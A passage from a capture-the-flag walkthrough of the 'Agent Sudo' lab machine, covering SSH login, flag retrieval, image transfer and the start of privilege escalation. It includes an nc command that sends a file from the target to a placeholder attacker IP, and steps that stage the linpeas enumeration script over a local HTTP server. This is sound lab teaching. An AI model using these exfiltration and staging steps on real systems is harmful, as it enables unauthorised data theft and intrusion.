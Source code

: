 ## Logging into SSH
We can now establish a SSH connection as the user james. He will most likely have the user flag in his home directory.
```
user@parrot ~/writeup/agent-sudo $ ssh james@<TARGET-IP>
james@<TARGET-IP>'s password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0


75 packages can be updated.
33 updates are security updates.


Last login: Tue Oct 29 14:26:27 2019
james@agent-sudo:~$ ls
Alien_autospy.jpg  user_flag.txt
james@agent-sudo:~$ cat user_flag.txt
```
Output: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

## Alien_autospy.jpg
The given task indicates we gotta perform an image reverse scan.
First, we have to get the image on the attacker machine. This can be done with `nc` or `scp`.

attacker:
```
user@parrot ~/writeup/agent-sudo $ nc -lvnp 9001 > Alien_autospy.jpg
```
target:
```
james@agent-sudo:~$ nc -N <ATTACKER-IP> 9001 < Alien_autospy.jpg
```
Now we just have to upload the file on an image reverse search platform, like TinEye, and check the results. It seems that the image is about the "Roswell alien autopsy".

## Privilege Escalation
We start by getting [linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) on the target.
attacker:
```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
```
and 
```
python3 -m http.server 8009
```
